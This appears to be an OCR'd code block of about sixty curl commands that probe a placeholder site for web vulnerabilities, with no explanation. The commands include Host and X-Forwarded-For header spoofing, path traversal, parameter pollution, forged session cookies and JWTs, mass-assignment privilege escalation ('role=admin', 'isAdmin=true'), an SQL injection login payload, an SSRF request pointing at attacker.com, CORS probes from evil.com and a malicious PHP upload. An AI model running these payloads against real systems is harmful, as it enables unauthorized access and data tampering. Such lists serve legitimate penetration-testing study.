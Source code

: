 ```bash
curl -H "Host: attacker.com" -i http://example.com/protected/resource
curl --resolve example.com:80:127.0.0.1 -i http://example.com/protected/resource
curl -i http://example.com/protected/../unprotected/resource
curl -i http://example.com/protected/resource?user=admin
curl -H "X-Forwarded-For: attacker.com" -i http://example.com/protected/resource
curl -i http://example.com/protected/resource?page=1
curl -i http://example.com/protected/resource?page=2
curl -b "sessionid=attacker_session_id" -i http://example.com/protected/resource
curl -i http://example.com/protected/resource/../
curl -i http://example.com/api/users/3
curl -X POST -d "role=admin" -i http://example.com/api/user/modify
curl -X POST -d "order_id=123&status=shipped" -i http://example.com/api/order/update
curl -H "X-Original-URL: /protected/resource" -i http://example.com/protected/resource
curl -i http://example.com/protected/resource?user=admin&user=attacker
curl -H "Authorization: Bearer tampered_jwt_token" -i http://example.com/protected/resource
curl -X POST -d "amount=100&receiver=attacker" -i http://example.com/transfer_money
curl -b "stolen_session_cookie=attacker_session" -i http://example.com/protected/resource
curl -X POST -H "X-Requested-With: XMLHttpRequest" -d "action=delete&id=123" -i http://example.com/api/user/action
curl -i https://storage.googleapis.com/attacker_bucket/protected_file.txt
curl -X GET -i http://example.com/api/admin/users
curl -i http://example.com/protected/resource?path=/admin&path=/home
curl -H "Origin: http://evil.com" -i http://example.com/protected/resource
curl -O http://example.com/downloads/secret_file.zip
curl -X POST -d '{ "query": "{ user(id: 123) { name } }" }' -i http://example.com/graphql
curl -i -N -H "Upgrade: websocket" -H "Connection: Upgrade" -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==" http://example.com/websocket
curl -X PUT -d "isAdmin=true" -i http://example.com/api/user/profile/update
curl -i http://example.com/page.html
curl -i http://subdomain.example.com/protected/resource
curl -X POST -H "Origin: http://evil.com" -d "action=delete&id=123" -i http://example.com/api/user/action
curl -i http://example.com/scripts/admin_panel.php
curl -i http://example.com/api/users?page=1
curl -i http://example.com/api/users?page=9999
curl -X POST -d "action=delete&id=123" -i http://example.com/mobile/api/user/action
curl -X POST -d '{"user_id": "123", "action": "delete"}' -i http://example.com/webhook
curl -X POST -d "username=admin' OR '1'='1" -i http://example.com/login
curl -i http://example.com/templates/admin_panel.html
curl -i http://example.com/remote_image.php?url=http://attacker.com/malicious_script.js
curl -i http://example.com/api/users?page=1
curl -i http://example.com/api/users?page=2
curl -H "Authorization: Basic YWRtaW46cGFzc3dvcmQ=" -i http://example.com/admin/resource
curl -i http://example.com/rewritten/admin/resource
curl -b "sessionid=attacker_session" -i http://example.com/protected/resource
curl -i -X POST http://example.com/hidden/admin/resource
curl -i -H "Origin: http://attacker.com" http://example.com/api/resource
curl -i http://example.com/api/user/data.json
curl -X POST -d "action=delete&id=123" -i http://example.com/mobile/api/user/action
curl -i http://example.com/admin/resource.bak
curl -i http://example.com/page.shtml
curl -H "Authorization: Bearer attacker_jwt_token" -i http://example.com/protected/resource
curl -X OPTIONS -H "Origin: http://evil.com" -H "Access-Control-Request-Method: GET" -i http://example.com/api/resource
curl -i http://cdn.example.com/protected_resource
curl -i -H "Host: admin.example.com" http://example.com/protected_resource
curl -i http://example.com/protected/resource -H "X-Custom-Header: admin"
curl -F "file=@malicious_script.php" -i http://example.com/upload
curl -X POST -d "user_id=123&action=delete" -i http://example.com/api/v1/mobile/action
curl -i -b "session_id=123456789" http://example.com/protected/resource
curl -X OPTIONS -i http://example.com/protected/resource
curl -i http://example.com/protected/resource -H "Integrity: sha256-<hash>"
curl -i http://example.com/api/data -H "Accept: text/javascript"
```